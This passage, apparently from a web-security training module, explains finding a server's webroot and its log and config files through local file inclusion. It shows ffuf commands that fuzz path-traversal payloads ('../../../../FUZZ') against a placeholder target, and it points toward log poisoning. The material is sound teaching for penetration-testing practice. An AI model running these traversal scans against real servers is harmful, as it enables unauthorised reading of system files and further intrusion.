 For example, if we wanted to locate a file we uploaded, but we cannot reach its "`/uploads`" directory through relative paths (like: "`../../uploads`"). In such cases, we may need to figure out the server Webroot path so that we can locate our uploaded files through absolute paths instead of relative paths.

To do so, we can fuzz for the "`index.php`" file through common Webroot paths, which we can find in this [wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or this [wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). 

Depending on our LFI situation, we may need to add a few back directories (e.g. "`../../../../`"), and then add our "`index.php`" afterwards.

The following is an example of how we can do all of this with ``ffuf``:
```bash
$ ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287

...SNIP...
: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/var/www/html/          [Status: 200, Size: 0, Words: 1, Lines: 1]
```
As we can see, the scan did indeed identify the correct Webroot path at "`/var/www/html/`". 

We may also use the same [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist we used earlier, as it also contains various payloads that may reveal the Webroot. 

If this does not help us in identifying the webroot, then our best choice would be to read the server configurations.
#### Server Logs/Configurations
We need to be able to identify the correct **logs** directory to be able to perform the **log poisoning attacks**. 

Furthermore, we may also need to read the server configurations to be able to identify the server Webroot path and other important information (like the **logs** path).

To do so, we can use the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist. If we wanted a more precise scan, we can use this [wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) or this [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows), though they are not part of `seclists`, so we need to download them first.

Let's try the Linux wordlist against our LFI vulnerability, and see what we get:
```bash
$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287

...SNIP...
 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ
 :: Wordlist         : FUZZ: ./LFI-WordList-Linux
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
```